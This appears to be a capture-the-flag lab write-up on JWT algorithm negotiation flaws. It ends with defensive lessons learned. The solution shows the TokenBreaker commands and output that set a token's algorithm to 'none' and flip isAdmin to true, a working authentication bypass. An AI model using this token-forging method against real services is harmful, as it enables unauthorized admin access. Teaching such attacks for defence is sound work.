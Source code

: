 # Algorithm Negotiation

## The Basics

Sometimes a bad implementation or a known vulnerability in an older algorithm can lead to serious trouble, and a good example of this is the SSL's [Poodle](https://www.openssl.org/~bodo/ssl-poodle.pdf) Attack which relies on the negotiation of an old an vulnerable algorithm, in combination with a [Padding Oracle](padding-oracle.nd) Attack.

There are a few good examples on the application of this issue and another one really interesting is related with [JWT's](https://jwt.io/introduction/). 

Although JWT is a really nice thing, there are a lot of different things that can go wrong with the implementation. 

Lets start by getting a really quick overview of JWTs.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

This is a really simple jwt, which consist of 3 parts, comma separated:
* Header - Has information like the algorithm being used
* Payload - The actual data 
* Signature - A signature to verify JWT

Each of these sections is a json structure encoded with base64url

JWT's are being widely used nowadays as a way to validate sessions.


The important parts to understand here about the jwt are the algorithm and the signature. The algorithm specifies the algorithm used to secure the jwt, while the signature makes sure that the jwt wasn't manipulated by an attacker

According to the JWT [specification](https://tools.ietf.org/html/rfc7519) there are two algorithms that are mandatory and need to be supported on every implementation: **none** and **HS256**.

The first one as the name indicates, is not having an algorithm at all, so no signature is needed. The second one is an HMAC with SHA256.


Depending on how a library is implemented, an attacker can manipulate the algorithm, in order to change it to none, or even from something like RS256 which uses a public key, to an HS256

Auth0 has an awesome blog and resources about attacks on JWT and we definitely recommend you to take some time to read their blog posts, specially the post [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## Solving the challenge

This challenge has a vulnerability where the service parsing the jwt accepts the none algorithm, even when the developer specifies a password. So as long as an attacker sends a token with a none algorithm, the server will accept it.

In the challenge, there is a JWT token stored in localstorage

You can start by using [jwt.io](https://jwt.io/) to decode the token, and understand whats there...

In this case, since we are trying to exploit the algorithm negotiation we are going to use a nice tool called [TokenBreaker](https://github.com/Goron/TokenBreaker).

This tool exploit the two issues mentioned before. 

You can download the tool and run it with python3.

```bash
pip install -r requirements.txt
python TheNone.py -t TOKEN_OBTAINED_FROM_LOCALSTORAGE
```

This tool will guide you through the process of changing the token. 

Take a look on what you need to do:

```
python TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJBTk9OW
U1PVVNVU0VSIiwiaXNBZG1pbiI6ZmFsc2UsImlhdCI6MTYyNTI1MzgzN30.8-SY5A-4DqMglOurZ6aL7x1A5yD0DS8_34DJYXzZY-g
 ________         _  __
/_  __/ /  ___   / |/ /__  ___  ___
 / / / _ \/ -_) /    / _ \/ _ \/ -_)
/_/ /_//_/\__/ /_/|_/\___/_//_/\__/

[*] Decoded Header value: {"alg":"HS256","typ":"JWT"}
[*] Decoded Payload value: {"sub":"ANONYMOUSUSER","isAdmin":false,"iat":1625253837}
[*] New header with 'alg' > 'none': {"alg":"None","typ":"JWT"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"sub":"ANONYMOUSUSER","isAdmin":true,"iat":1625253837}
[+] Successfully encoded Token: .
```

The tool asks you if you want to change the header, which we said no, and then asks you to specify your new payload. As you can see from the decoded value, there is a field called isAdmin that is set to false, so we just need to flip it to true. 

And the tool will give you a new token that you need to change in localstorage, refresh the page, and there it is: a new paste in the view, with the flag


## Lesson Learned

* Use a well known and proven JWT library to parse JWT tokens.
* Do not accept JWT tokens with none algorithm
* If you support different algorithms, specify a key for each algorithm
* If you only support one algorithm, make sure you specify it in the verification method, to make sure an attacker can't change it